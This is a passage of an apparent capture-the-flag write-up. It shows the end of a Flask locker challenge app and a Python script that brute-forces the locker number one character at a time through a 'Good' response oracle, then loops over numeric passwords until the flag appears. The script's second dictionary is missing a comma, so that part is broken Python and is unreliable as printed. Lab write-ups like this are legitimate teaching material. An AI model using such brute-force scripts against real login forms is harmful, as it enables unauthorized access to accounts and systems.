```python
            return render_template("index.html", result = "Good")
        else: 
            return render_template("index.html", result = "Wrong!")
            
            
app.run(host="0.0.0.0", port=8000)
```

In this challenge, we need to write a script to `brute-force` the information to get the `flag`. However, brute-forcing both fields would take a very long time, so I attacked one field first to reduce the time. Pay attention to the line of code that returns `Good` when only the `locker_num` is correct

```python
import requests
import string

url = "..." 
locker_num = ""

alphanumeric = string.ascii_lowercase + string.digits

#bruteforce locker_num
for i in range(4):
    for j in alphanumeric:
        test = locker_num + j
        data = {
            "locker_num": test,
            "password": ""
        }
        res = requests.post(url, data=data)
        if "Good" in res.text:
            locker_num = test
            print(f"Found locker_num: {locker_num}")
            break
#result = xd0j

#bruteforce password
for i in range(100,201):
    data = {
        "locker_num": "xd0j"
        "password": i
    }
    res = requests.post(url, data=data)
    if "DH" in res.text:
        print(res.text)
        break

```

## simple_sqli_chatgpt
